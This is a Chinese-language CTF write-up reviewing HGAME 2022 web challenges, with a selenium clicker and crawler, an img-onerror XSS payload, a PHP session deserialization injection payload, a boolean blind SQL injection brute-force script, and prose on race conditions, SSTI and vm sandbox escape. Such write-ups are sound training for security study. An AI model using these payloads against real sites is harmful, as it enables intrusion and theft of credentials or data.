 ```yaml
---
title: HGAME 2022 复盘 writeup
date: 2022-02-19 23:01:00
updated: 2022-02-19 23:01:00
tags: [ctf,security]
category: CTF
---
```

# HGAME 2022 复盘 writeup by ek1ng


## 序

四周的HGAME结束后又回去看了看没做出的一些题和官方WP还有一些师傅们的wp，发现有些题解法很多，并且有些题虽然我打出了flag但是其实不是特别了解漏洞，也是再复盘一下这些题

## WEB

### 蛛蛛...嘿嘿♥我的蛛蛛（爬虫）

这是一个爬虫题目，题目中的蛛蛛是提示爬虫，这点是当初没发现的，当初是写了这样一个脚本，但是事实上关卡数是未知的，这种自动点击的方式，点到多少还是要看运气，虽然也可以print一下，不过总之不是个很好的方法，然后也是写个爬虫再做一遍

##### 自动化点击脚本

```python
from time import sleep
from selenium import webdriver

# 打开浏览器
wd = webdriver.Chrome(r'chromedriver.exe')
wd.get('https://hgame-spider.vidar.club/915929bc23')
# 让程序停1s保证打开页面后再自动点击
sleep(1)

# 自动点击
for i in range(100):
    # 点击href值不为空的按钮
    for link in wd.find_elements_by_xpath("//*[@href]"):
        try:
            if link.get_attribute('href') != '':
                wd.get(link.get_attribute('href'))
        except:
            pass

```

##### 爬虫

```python
import requests

s = 'https://hgame-spider.vidar.club/915929bc23'


def find(x):
    res = requests.get(s + x)
    print(res.headers)
    print(s + x)
    print(res.text)
    xt = [x for x in res.text.split("\"") if 'key' in x]
    for i in xt:
        find(i)
    if "hgame" in res.text:
        print(res.text)
        return


find("")

```

### At0m的留言板（XSS）

XSS漏洞的利用点在img上，代码没有对img做过滤。

先利用img标签的onerror属性，在content中输出窗体对象的所有属性

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
Object.keys(window)">
```

![image-20220219154358680](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154358680.png)

然后发现flag的名称是F149_is_Here，在content中输出窗体对象的子属性F149_is_Here的值，拿到flag

```html
<img src=1 onerror="document.getElementsByClassName('content')[0].innerText =
F149_is_Here">
```

![image-20220219154406494](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220219154406494.png)

### 一本单词书（反序列化）

在如何触发反序列化这一点其实当初做题没有特别清楚，因为hint中给出了一个例题，然后依葫芦画瓢得打出了flag，后面也是忙着做后面得题就没机会思考一下，现在回过头再看一下如何通过输入特定数据触发反序列化

先来看看我当初参照hint给出例题的payload

```
{"aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa":"aaaa"}
```

encode 函数将键值型数据编码为 键|serialize(值) 的形式，如 {"a": "1","b": "s"} 编码为 a|s:1:"1";b|s:1:"s" 。

decode 函数会调用 unserialize 函数将编码后的数据恢复，具体来说就是 | 后面到下一个键名之间的内容 换被传递给 unserialize 函数。 

当键中包含 | 符号时，就可以注入任意的反序列化后的数据。

这里我们的键是`aaa|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa`值是`aaaa`，然后encode是给值序列化，并且用|隔开，decode是把|后面的反序列化回去，然后我们传入的键是做了手脚的，后面跟了|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}aa，在decode反序列化的过程中，会把|后面的都反序列化，那这样的话，Evil类就被反序列化了，然后为什么还要跟个aa，是因为他是键值对嘛，那我们这里后端decode的时候会以为是aaa为键，|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象为值，然后反序列化后Evil对象触发__wakeup这个魔法方法，把flag带出来，然后为什么后面要跟个aa，不跟aa也是可以打出flag，然后跟个aa应该是和后面值aaaa配对，然后|O:4:\"Evil\":1:{s:4:\"file\";s:5:\"\/flag\";}反序列化后的对象和/flag的值会覆盖掉这组键值对，然后所以这个aa和aaaa是看不到的。

然后来看看出题人给的payload

```
{"a|O:4:\"Evil\":2:{s:4:\"file\";s:5:\"/flag\";s:4:\"flag\";N;};b":2}

```

也是一样的道理

### Vidar shop demo（条件竞争）

我当初做题的方法和预期解不太一样，然后也是在校外群看到很多师傅都有各种解法，于是也一一尝试一下看看

第一种解法是官网WP中给出的，连续发送对不同订单的支付请求，只扣一次余额，因为后端的逻辑是查询出用户余额，然后创建订单，最后更新用户余额，后面那个订单只要赶在余额更新前查询余额，那么就会只扣一次钱了

第二种解法是取消未支付订单，这周做法就是后端逻辑问题了，并不是条件竞争，退款未支付商品也是可以成功的

第三种解法校外群内有师傅说可以修改未支付订单号，但是余额的扣除好像是按照商品判断的，你修改成多少钱的商品就是扣多少余额，我按照他的解法是无法复现的，不知道是什么原因。。。。

第四种是爆破账号密码，唔在登录上确实有些问题，一开始出题人还没删测试账号，我直接登进去了，后来问了问后就说这种解法不太行，痛失1血（，后面题目改成了账号密码至少10位，爆破就稍微会难一些，但是还是可行的一种方法，不过爆破账号的前提也是别人打出一个余额超过10000的账号hhh，讲道理也是不太对的方法

### LoginMe （sql布尔盲注）

参考了其他选手的python脚本，我当初是用的sqlmap出的，因为没加什么过滤好像，sqlmap可以直接出，看了看其他人的wp很多也是sqlmap的，然后但是我按照别人的wp的脚本好像无法复现，不知道为啥，反正布尔盲注确实不太懂，针对这个知识学了一下

````python
```
import json
import requests
host = '2aaa006c94.login.summ3r.top:60067'
md5 = ''
data = {"username": "test') and substr(password,1,1)='a' --+", "password": "test"}
for i in range(1,33):
    for j in "0123456789abcdefABCDEF":
        data["username"] = "admin') and substr(password,{},1)='{}' --+".format(i,j)
        r = requests.post('http://' + host + '/login', json=data).text
        info = json.loads(r)['msg']
        print(info)
        if info == 'success!':
            md5 += j
        print(md5)
        break
````



首先是什么是布尔盲注，就是通过构造逻辑判断来得到信息，因为解码只返回true or false，没有直接回显信息，没办法直接union注入爆库名表名字段名这样。

这里就是知道账号是admin，所以就是爆密码，然后一位一位去跑，把这个密码爆出了，大概是这样的流程，然后如果说页面不反回true or false的题型就是需要时间盲注了，需要让逻辑表达式正确时延时返回，这样就可以做到true or false的判断

### SecurityCenter（SSTI）

这个题是我按照预期解做出的，然后看到别人的wp中有人是弹shell然后连接服务器读取的文件，也尝试一下看看

好吧环境好像关了，那只能看看wp学习一下了

主要就是没过滤eval，所以可以想办法弹shell

### Markdown Online（vm沙箱逃逸）

被绕登录的trick卡住了，真是眩晕

传入数组对象，16个元素的数组或者json再套一层，让.length判断正确但是touppercase报错就可以绕过登录

后面就是markdown中没有对html标签过滤，所以说可以传script标签，然后找vm沙箱逃逸的payload，绕过waf过滤就可以get flag了，vm沙箱逃逸主要是因为vm并不是完全安全的，用户输入直接传入就会造成沙箱逃逸，然后实现RCE，可以cat /flag



